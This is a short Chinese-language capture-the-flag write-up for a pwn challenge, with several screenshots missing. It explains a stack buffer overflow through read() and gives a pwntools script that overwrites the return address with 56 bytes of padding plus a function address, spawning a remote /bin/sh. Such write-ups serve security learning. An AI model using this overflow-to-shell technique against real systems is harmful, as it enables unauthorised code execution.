






- gdb分析附件，查看`main`：
    
    可以看到此处通过`read`读取输入到栈缓冲区

- 查看该程序所有函数：
    
    可以看到`/bin/sh`就在`whhhat`函数中并且通过`execve`来调用

    所以可以通过`read`进行数据写入造成栈溢出，来调用`whhhat`函数

- `whhhat`函数地址：
    

- 通过对`main`函数分析或者`cyclic`都可以得出溢出范围：
    
    

- EXP：
    ```python
    from pwn import *

    a = remote("nc1.ctfplus.cn", 47523)
    # a = process("./hello")

    payload = b"A" * 56 + p64(0x4011F7)

    a.sendline(payload)
    a.interactive()
    ```
    